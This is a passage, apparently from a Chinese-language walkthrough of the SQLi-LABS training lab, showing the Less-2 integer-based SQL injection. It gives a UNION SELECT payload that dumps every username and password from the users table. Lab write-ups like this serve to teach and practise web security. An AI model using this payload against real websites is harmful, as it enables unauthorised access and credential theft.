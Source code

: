 ![image-20210922215200093](../../images/SQLi-LABS/image-20210922215200093.png)

+ 你可以使用上面的语句去获取其他表中的数据。

## Less-2 基于错误的整数

+ 在Less-1中我们已经找到了注入Less-2也是一样。
+ 首先我们假设该查询语句为：

```sql
select column1, column2, column3 from users where id = $id limit 0,1;
```

+ Less-1我们已经把列名和列数量获取到了。
+ 可以使用只有下列payload进行注入：

```sql
?id=0 union select 1,(select group_concat(username) from users),(select group_concat(password) from users) --+
```
